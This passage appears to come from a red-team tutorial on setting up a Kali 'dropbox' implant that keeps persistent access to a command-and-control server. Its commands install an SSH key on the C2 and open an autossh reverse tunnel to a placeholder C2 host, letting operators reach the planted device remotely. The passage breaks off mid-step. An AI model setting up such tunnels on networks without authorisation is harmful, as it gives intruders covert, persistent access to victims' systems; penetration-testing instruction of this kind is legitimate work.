 ```bash
reboot
```

If everything went well, you will now be able to connect from your phone or laptop, and access the dropbox via ssh.

***

## Reverse SSH

The first method I use for setting up a link between the dropbox and our C2 server, is to use a reverse SSH connection.

The dropbox will automatically connect to our C2 via SSH, and open a port on the C2.  Connecting to the port on the C2, allows us to SSH directly into the dropbox.

You'll have needed to create a ssh key already, as described above.

We proceed to copy our key onto the C2 server.

```bash
scp /kali/.ssh/id_rsa.pub root@<C2>:/tmp
```

Now connect to the C2 server, so that you can run commands.  I run as the `root` user on our C2 server, so adjust as needed below.

First we add the public key into our `authorized_keys` list.  This will allow us to connect to the C2 server, without using a password.

```bash
cat /tmp/id_rsa.pub >> /root/.ssh/authorized_keys
```

Back on our dropbox, we make sure this key is working properly.

```bash
ssh root@<C2>
```

If you can connect to the C2 using the above, without being prompted for a password, then you know it worked properly.

The next step is to make automatic ssh connections.  For this I use `autossh`.

```bash
apt install autossh
```

Let's test and makes sure `autossh` works properly.

```bash
autossh -M 11166 -i /kali/.ssh/id_rsa -R 6667:localhost:22 root@<C2>
```

This will open a port 6667 on your C2 server, that when connected to, will connect you to port 22 on your dropbox.

If all goes well, you should not be connected to your C2.  Log back into the C2, and see if you can issue the following command to connect back to your dropbox.
